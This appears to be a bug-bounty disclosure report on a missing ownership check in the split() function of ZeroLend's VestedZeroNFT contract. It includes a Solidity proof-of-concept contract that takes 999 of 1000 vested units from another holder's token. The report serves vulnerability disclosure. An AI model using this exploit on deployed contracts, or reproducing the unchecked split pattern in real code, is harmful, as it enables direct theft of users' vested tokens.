 # 29031 - \[SC - Critical] VestedZeroNFT tokens can be directly stolen thr...

Submitted on Mar 5th 2024 at 03:07:39 UTC by @Trust for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29031

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:

* Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
* Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description

## Brief/Intro

The split() function of VestedZeroNFT allows a user to split a tokenId to two tokens, using the desired ratio. VestedZeroNFT is a vesting solution, allowing anyone to mint a vesting token who will eventually emit the entire locked funds.

## Vulnerability Details

The `split()` function lacks access-control check - essentially that the msg.sender is the owner of `tokenID`. The `msg.sender` is the one receiving the newly minted token with an arbitrary ratio. `_mint(msg.sender, ++lastTokenId);` This means anyone can pass an existing tokenID and `fraction=1` to still 99.99% of the value of a token.

## Impact Details

Anyone can steal the underlying value of vestedZeroNFTs

## Proof of concept

Since the project's test suite does not run, as indicated in chat, I've prepped a POC as a standalone contract which directly copies the `split()` function from VestedZeroNFT.

Simply deploy the SplitStealPOC contract and run `attack()` which proves anyone can steal another person's holdings.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC165, ERC721Upgradeable, ERC721EnumerableUpgradeable} from "@openzeppelin/contracts-upgradeable/token/ERC721/extensions/ERC721EnumerableUpgradeable.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";
import {ERC20} from  "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IVestedZeroNFT{
    function split( uint256 tokenId, uint256 fraction) external;
    function mint( address _who, uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) external returns (uint256);
    function init(address _zero, address _stakingBonus) external;
}

enum VestCategory {
    PRIVATE_SALE,
    EARLY_ZERO,
    NORMAL,
    AIRDROP
}

struct LockDetails {
    uint256 cliffDuration;
    uint256 unlockDate;
    uint256 pendingClaimed;
    uint256 pending;
    uint256 upfrontClaimed;
    uint256 upfront;
    uint256 linearDuration;
    uint256 createdAt;
    bool hasPenalty;
    VestCategory category;
}

contract Zero is ERC20 {
    constructor() ERC20("Zero","ZRO") {
        _mint(msg.sender, 100_000 * 1e18);
    }
}

contract VestedZeroNFT is ERC721EnumerableUpgradeable {
    function init(address _zero, address _stakingBonus) external initializer {
    __ERC721_init("ZeroLend Vest", "ZEROv");
    denominator = 10000;
    zero = IERC20(_zero);
    }

    mapping(uint256 => bool) public frozen;
    uint256 public denominator;
    mapping(uint256 => LockDetails) public tokenIdToLockDetails;
    uint256 public lastTokenId;
    IERC20 public zero;

    function split(
        uint256 tokenId,
        uint256 fraction
    ) external {
        _requireOwned(tokenId);
        require(fraction > 0 && fraction < denominator, "!fraction");
        require(!frozen[tokenId], "frozen");
        LockDetails memory lock = tokenIdToLockDetails[tokenId];
        uint256 splitPendingAmount = (lock.pending * fraction) / denominator;
        uint256 splitUpfrontAmount = (lock.upfront * fraction) / denominator;
        uint256 splitUnlockedPendingAmount = (lock.pendingClaimed * fraction) /
            denominator;
        uint256 splitUnlockedUpfrontAmount = (lock.upfrontClaimed * fraction) /
            denominator;
        tokenIdToLockDetails[tokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: lock.createdAt,
            linearDuration: lock.linearDuration,
            pending: splitPendingAmount,
            pendingClaimed: splitUnlockedPendingAmount,
            upfrontClaimed: splitUnlockedUpfrontAmount,
            upfront: splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
        _mint(msg.sender, ++lastTokenId);
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: block.timestamp,
            linearDuration: lock.linearDuration,
            pending: lock.pending - splitPendingAmount,
            pendingClaimed: lock.pendingClaimed - splitUnlockedPendingAmount,
            upfrontClaimed: lock.upfrontClaimed - splitUnlockedUpfrontAmount,
            upfront: lock.upfront - splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
    }

    function getTokenIdToLockDetails(uint256 a) external returns (LockDetails memory)  {
        return tokenIdToLockDetails[a];
    }

    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);
        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");
        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });
        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);
        return lastTokenId;
    }

}


contract SplitStealPOC {

    IERC20 zero;
    VestedZeroNFT nft;

    constructor() {
        zero = new Zero();
        nft = new VestedZeroNFT();
        nft.init(address(zero), address(0));        
    }

    function attack() external {
        zero.approve(address(nft), type(uint256).max);
        nft.mint(address(0x1111), 1000, 1000, 100, 100, block.timestamp, false, VestCategory.EARLY_ZERO); // uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) 

        require(nft.ownerOf(1) == address(0x1111));

        nft.split(1, 10);

        require(nft.ownerOf(2) == address(this));
        LockDetails memory l1 = nft.getTokenIdToLockDetails(1);
        LockDetails memory l2 = nft.getTokenIdToLockDetails(2);
        require(l1.pending == 1);
        require(l2.pending == 999);
    }
}

```

